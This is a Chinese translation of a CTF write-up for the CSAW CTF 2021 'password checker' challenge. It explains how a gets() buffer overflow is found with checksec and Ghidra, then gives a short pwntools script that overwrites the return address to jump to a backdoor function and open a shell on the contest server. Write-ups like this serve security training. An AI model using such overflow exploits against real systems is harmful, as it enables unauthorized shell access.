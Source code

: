 # 密码检查 CSAW CTF 2021 写

> 原文：<https://infosecwriteups.com/password-checker-csaw-ctf-2021-write-up-8949dd62c948?source=collection_archive---------4----------------------->

![](img/ccc7a188ead87e791e9430e5288fa099.png)

这是二进制剥削的热身挑战。

可下载的文件是未剥离的 64 位二进制文件。

![](img/ff11532f1c1628c220f40a72acbb4480.png)

使用 **checksec** 我们可以分析二进制文件。

![](img/2227bf7eb4afe369a3c4e08affb54734.png)

使文件可写后，我们可以执行它。

![](img/c284239bc6495b1d7c7af62b9fe3bcca.png)

我们必须输入正确的密码才能进去。我第一次试着叫“查理”,但运气不好。

然后，我尝试了“密码”，它的工作，但没有任何标志的迹象。

![](img/c48b8e95677e0015c920777bfe0e8570.png)

所以我们必须检查二进制文件是如何工作的。

我用 **Ghidra** 打开二进制文件并分析函数。

在分析函数时，main 函数调用一个名为 password_checker 的函数。

![](img/ce2096604347b4e1628ace11bf58a3f0.png)

正在进行字符串比较，这就是“密码”被接受的原因。但是这个程序有一个易受攻击的函数，就是 gets()。

当我们打开 gets()手册页时，它警告我们不要使用这个函数，因为 gets()将存储超过缓冲区分配的字符，这将导致**缓冲区溢出**漏洞。

![](img/e527aeae13b2511314a91981e4c450cc.png)

把它作为一个优势，我们可以打破二进制文件，以达到标志。

我再次分析了这些函数，发现一个名为“后门”的函数很可疑。

![](img/4780f94cba666358e4a4f839e7cd4973.png)![](img/88d46c52421080d9f2ca9d9eacb4766e.png)

后门函数包含一个直接打开外壳的系统调用函数。这个外壳会带我们找到服务器。

我使用了 **pwntools** 并创建了一个 python 代码来传递缓冲区并返回后门函数。

```
 from pwn import *                                               
elf = ELF("./password_checker")                       
p = remote("pwn.chal.csaw.io",5000)                       
rop = ROP(elf)                       
ret = rop.find_gadget(["ret"]).address                       p.sendline(b"A"*72 + p64(ret) + p64(elf.sym["backdoor"]))                                               p.interactive()
```

通过运行这段 python 代码，我获得了挑战的旗帜！

**flag { CH4 R1 i3 _ 4 PPR 3c i4 t 35 _ y0u _ f0r _ y0ur _ h31p }**